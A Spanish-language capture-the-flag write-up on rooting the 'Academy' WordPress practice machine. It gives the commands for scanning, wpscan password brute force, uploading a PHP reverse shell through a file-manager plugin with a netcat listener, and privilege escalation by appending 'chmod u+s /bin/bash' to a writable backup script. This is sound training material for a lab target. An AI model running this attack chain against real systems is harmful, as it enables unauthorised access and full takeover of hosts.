# Lab de Pentesting: Explotación y escalada de privilegios en máquina Academy (WordPress)

Este repositorio documenta paso a paso cómo comprometer una máquina con **WordPress** mediante enumeración, fuerza bruta de credenciales y la explotación de un plugin vulnerable, logrando finalmente escalar privilegios hasta obtener acceso root.

---

## Resumen

El objetivo fue identificar servicios expuestos, reconocer la tecnología del sitio, obtener acceso al panel de administración de WordPress mediante credenciales débiles, cargar una webshell para ejecutar comandos y, finalmente, escalar privilegios abusando de permisos de escritura en un script de respaldo.

---

## Herramientas utilizadas

- `ping`
- `nmap`
- `gobuster`
- `nano`
- `wpscan`
- `netcat`
- `chmod`
- `bash`

---

## Pasos realizados

### 1. Verificar conectividad con ping

```bash
ping -c 1 192.168.173.130
```



Se comprobó que la máquina objetivo está activa.

---

### 2. Escaneo de puertos con Nmap

```bash
nmap -sS -sC -sV --min-rate 5000 -p- -n -vvv 192.168.173.130 --open -Pn -oN scan.txt
```



Se identificó un servicio HTTP en el puerto **80**.

---

### 3. Enumeración de directorios con Gobuster

```bash
gobuster dir -u http://192.168.173.130 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,txt,html,py
```



Se descubrió la presencia de un **WordPress**.

---

### 4. Resolución del dominio



Al inspeccionar el código fuente (`CTRL+U`) se encontró la referencia al dominio:



```
academy.thl
```

Se añadió al archivo `/etc/hosts`:

```bash
nano /etc/hosts
192.168.173.130 academy.thl
```



Con esto el dominio resolvió correctamente.



---

### 5. Enumeración de usuarios y plugins con WPScan

```bash
wpscan --url http://192.168.173.130/wordpress -e u,p --plugins-detection aggressive
```



Se identificó al usuario:

- `dylan`

Posteriormente, con fuerza bruta:

```bash
wpscan --url http://192.168.173.130/wordpress -U dylan -P /usr/share/wordlists/metasploit/unix_passwords.txt
```



Se encontraron las credenciales:

- **Usuario:** dylan  
- **Contraseña:** password1

---

### 6. Acceso al panel de WordPress




Se ingresó con el usuario **dylan** y se aprovechó el plugin **Big File Manager** para modificar `index.php`.  
Se reemplazó su contenido con un **PHP reverse shell** (Pentestmonkey), configurando la IP de la máquina atacante y el puerto 1234.



---

### 7. Ejecución del reverse shell

En la máquina atacante:

```bash
nc -lvnp 1234
```



En el navegador:

```
http://academy.thl/wordpress/
```


Se obtuvo acceso remoto.  




Se mejoró la sesión con:

```bash
script /dev/null -c bash
```



---

### 8. Escalada de privilegios

Se observó que había permisos de escritura, se miró que contenia ese directorio. Se creó un archivo de respaldo malicioso:




```bash
echo 'chmod u+s /bin/bash' >> backup.sh
chmod u+x backup.sh
```



Después de ejecutarse, se obtuvo una bash con privilegios:

```bash
bash -p
```



Verificación:

```bash
whoami
root
```

Acceso **root** confirmado.

---

## Resultados finales

- Acceso al panel de administración de WordPress mediante credenciales débiles.
- Ejecución de un **PHP reverse shell** a través de un plugin vulnerable.
- Escalada de privilegios explotando permisos de escritura en `backup.sh`.
- Acceso root conseguido y obtención de las flags en [TheHackersLabs](https://thehackerslabs.com/).

---

## Consideraciones

Este repositorio es para fines educativos y de práctica en pentesting ético.  
No debe usarse en sistemas sin autorización.
